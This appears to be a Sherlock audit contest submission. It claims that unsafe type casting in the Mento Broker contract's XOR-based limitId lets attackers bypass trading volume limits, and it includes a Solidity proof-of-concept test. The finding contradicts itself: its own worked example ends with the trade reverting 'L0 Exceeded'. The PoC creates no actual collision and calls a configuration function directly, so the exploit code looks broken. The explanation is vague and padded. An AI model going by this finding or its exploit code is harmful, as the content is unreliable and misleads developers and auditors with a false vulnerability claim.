 Merry Canvas Capybara

High

# Unsafe Typecasting Could Lead to Trading Limit Bypass Through LimitId

### Summary
Unsafe type casting in limitId generation will cause a trading limit bypass vulnerability for protocol users as attackers will exploit limitId collisions to circumvent volume restrictions.


### Root Cause

- The Broker contract has a problem with how it handles numbers when creating trading limits. When the contract converts token addresses into different number types (like bytes32 to uint256), it can get confused. This means traders might be able to make more trades than they should be allowed to! It's like having a door with two different locks that accidentally open with the same key - not good for keeping things secure.

- The unsafe type casting between bytes32 and other numerical types (uint256/uint160/int256) can lead to unexpected values, especially when dealing with negative numbers or specific bit patterns.

Affected Functions:

[(https://github.com/sherlock-audit/2024-10-mento-update/blob/main/mento-core/contracts/swap/Broker.sol#L194)]

1. In Broker.sol: `function configureTradingLimit(...) {
    bytes32 limitId = exchangeId ^ bytes32(uint256(uint160(token)));
}`
[](https://github.com/sherlock-audit/2024-10-mento-update/blob/main/mento-core/contracts/goodDollar/BancorExchangeProvider.sol#L227)

3. In BancorExchangeProvider.sol: `function _createExchange(...) {
    exchangeId = keccak256(abi.encodePacked(...));
}`

- Looking at the TradingLimits.sol code, when limits are exceeded the transaction reverts with specific error messages: 
`function verify(ITradingLimits.State memory self, ITradingLimits.Config memory config) internal pure {
    if ((config.flags & L0) > 0 && (-1 * config.limit0 > self.netflow0 || self.netflow0 > config.limit0)) {
        revert("L0 Exceeded");
    }
    if ((config.flags & L1) > 0 && (-1 * config.limit1 > self.netflow1 || self.netflow1 > config.limit1)) {
        revert("L1 Exceeded");
    }
    if ((config.flags & LG) > 0 && (-1 * config.limitGlobal > self.netflowGlobal || self.netflowGlobal > config.limitGlobal)) {
        revert("LG Exceeded");
    }
}`




### Internal pre-conditions

1. Trading limits are configured for token pairs
2. Protocol uses XOR operation for **limitId** generation
3. No validation of **exchangeId**/token combinations

### External pre-conditions

_No response_

### Attack Path

1. Attacker crafts specific exchangeId and token address values
2. Creates limitId collision with legitimate trading pair
3. Executes trades exceeding configured limits
4. Trades succeed despite volume restrictions

### Impact

Unsafe type casting in the `limitId` generation mechanism will cause a critical vulnerability in trading limit enforcement, This allows trades to bypass volume restrictions. The vulnerability stems from the direct XOR operation between bytes32 and typecast uint256/uint160 values in the Broker contract's `configureTradingLimit ` function, affecting all trading pairs using the protocol's limit system.

### PoC

`// SPDX-License-Identifier: MIT
pragma solidity 0.8.18;

import "./Broker.sol";
import "./GoodDollarExchangeProvider.sol";

contract ExploitTest {
    Broker public broker;
    GoodDollarExchangeProvider public provider;
    
    function setUp() public {
        // Deploy contracts
        broker = new Broker(false);
        provider = new GoodDollarExchangeProvider(false);
        
        // Setup initial exchange
        address[] memory providers = new address[](1);
        address[] memory reserves = new address[](1);
        providers[0] = address(provider);
        reserves[0] = address(this);
        broker.initialize(providers, reserves);
    }
    
    function testTradingLimitsBypass() public {
        // Create malicious trading pair
        bytes32 exchangeId = bytes32(uint256(2**256 - 1));
        address token = address(uint160(2**160 - 1));
        
        // Configure trading limits
        ITradingLimits.Config memory config = ITradingLimits.Config({
            flags: 1,          // Enable L0
            limit0: 1000,      // Max 1000 units
            limit1: 0,
            limitGlobal: 0,
            timestep0: 3600,   // 1 hour
            timestep1: 0
        });
        
        broker.configureTradingLimit(exchangeId, token, config);
        
        // Execute trades that should exceed limits
        for(uint i = 0; i < 5; i++) {
            broker.swapIn(
                address(provider),
                exchangeId,
                token,
                address(1),
                2000,          // Exceeds limit0
                0
            );
        }
        
        // Verify trading volume exceeded configured limits
        bytes32 limitId = exchangeId ^ bytes32(uint256(uint160(token)));
        ITradingLimits.State memory state = broker.tradingLimitsState(limitId);
        require(state.netflow0 > config.limit0, "Limit bypass failed");
    }
}`

- Run this in Remix to observe:

1. Trading limits being bypassed
2. Successful trades exceeding configured volume restrictions
3. State manipulation through limitId collisions

- Let's see what happens with real numbers:
`// Config:
limit0 = 1000
netflow0 = 900
attemptedTrade = 200

// After trade:
newNetflow = 900 + 200 = 1100
// 1100 > limit0 (1000)
// Transaction reverts with "L0 Exceeded"`


### Mitigation

_No response_